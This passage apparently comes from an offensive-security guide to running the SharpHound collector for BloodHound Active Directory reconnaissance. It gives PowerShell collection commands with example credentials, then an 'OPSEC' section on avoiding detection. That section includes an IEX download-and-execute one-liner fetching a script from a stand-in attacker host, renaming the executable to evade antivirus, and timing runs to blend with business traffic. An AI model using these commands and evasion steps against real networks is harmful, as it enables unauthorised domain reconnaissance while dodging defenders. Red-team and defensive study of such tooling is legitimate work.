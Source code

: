 **Exclude Domain Controllers (Less risky):**
```powershell
.\SharpHound.exe -c All --ExcludeDCs
```

#### PowerShell Script Method:

```powershell
# Download SharpHound.ps1 (PowerShell version)
# From: https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1

# Import the module
Import-Module .\SharpHound.ps1

# Run collection
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Temp\

# With specific parameters
Invoke-BloodHound -CollectionMethod All -Domain corp.local -LdapUsername 'john.doe' -LdapPassword 'Password123' -OutputDirectory C:\Temp\
```

#### OPSEC Considerations for SharpHound:

**Avoiding Detection:**

```powershell
# 1. Run from memory (more evasive)
IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/SharpHound.ps1')
Invoke-BloodHound -CollectionMethod All

# 2. Rename executable (basic AV evasion)
cp SharpHound.exe Update.exe
.\Update.exe -c All

# 3. Use during business hours (blend with normal traffic)
# Schedule for 2 PM on a Tuesday

# 4. Exclude noisy methods
.\SharpHound.exe -c Group,LocalAdmin,ACL,Trusts
# Skips Session and LoggedOn (most detectable)

# 5. Disable output (if testing AV detection)
.\SharpHound.exe -c All --NoZip --OutputDirectory C:\Windows\Temp\
```

#### Troubleshooting SharpHound:

**Problem: "Access Denied" errors**
```powershell
# Check current user context
whoami
# Ensure you're running as domain user, not local user

# Try with explicit credentials
.\SharpHound.exe -c All --LdapUsername 'CORP\john.doe' --LdapPassword 'Password123'
```
